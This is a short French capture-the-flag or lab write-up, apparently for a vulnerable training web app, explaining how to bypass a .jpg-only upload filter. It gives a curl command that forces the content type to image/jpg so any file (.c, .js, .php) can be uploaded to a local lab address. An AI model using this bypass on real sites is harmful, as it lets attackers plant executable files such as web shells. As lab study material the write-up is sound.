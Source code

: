 # Upload file

Seul les fichiers **.jpg/.jpeg** son accepté, il est possible via une **commande CURL** d'indiqué manuellement/forcer le content-type d'un fichier envoyé.

#### ManCurl:
>https://curl.se/docs/manpage.html#-F

#### Changing content type of a file in a FormData request with cURL:
> https://ryanseddon.com/hacking/content-type-formdata-curl/


Commande CURL:

```
curl -X POST -F "Upload=Upload" --form "uploaded=@/mnt/nfs/homes/jereligi/Pictures/Screenshots/payload.c;type=image/jpg"  http://192.168.56.102/\?page\=upload\# | grep flag
```

On peut donc envoyer n'importe quel fichier (.c, .js, .php...) et indiquer qu'il s'agit d'un fichier .jpg.
